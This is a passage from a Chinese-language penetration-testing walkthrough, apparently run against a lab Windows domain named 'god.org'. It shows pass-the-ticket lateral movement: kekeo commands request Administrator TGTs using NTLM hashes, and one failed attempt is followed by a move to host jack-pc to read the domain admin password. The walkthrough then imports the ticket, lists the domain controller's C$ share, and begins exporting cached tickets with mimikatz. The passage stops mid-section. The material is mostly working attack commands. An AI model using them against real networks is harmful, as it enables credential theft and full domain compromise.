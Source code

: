 ```shell
shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:518b98ad4178a53695dc997aa02d455c" "exit"
```

![截图](a91b3f044417a122c3b6d1c6aeb3e849.png)

很明显示认证失败了！！！因此，我前两天在横向移动中，我们发现在jack-pc主机上存有域控主机的密码。因此我们首先横向移动到jack-pc上！！

![截图](9bdb1d41d9a889e9e7fc8d28ad466c8a.png)

![截图](a67308511befde61ac25d216e2c1cc4f.png)

读取密码：

![截图](3089ba8420f4f950b82ff7a2c4323f34.png)

![截图](296c55d0b4f8da7f68a0479bb9e9eda5.png)

使用新的hash密码：

```shell
shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"
```

![截图](935ff3caf79b0270189e3c7761041d9e.png)

- 导入票据

```shell
shell kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
```

![截图](fdecf87d391d52c75f8b5470cd78fb37.png)

- 利用该票据连接

```shell
shell dir \\owa2010cn-god\c$
```

![截图](c008db8b787a59a3998ec560b8683c0b.png)

### 3）历史票据遗留信息

用历史遗留的票据重新认证尝试。

- 导出历史票据信息

```shell
mimikatz sekurlsa::tickets /export
```

![截图](238975ecd32230b78b2683a95eaeef3a.png)

- 导入票据：
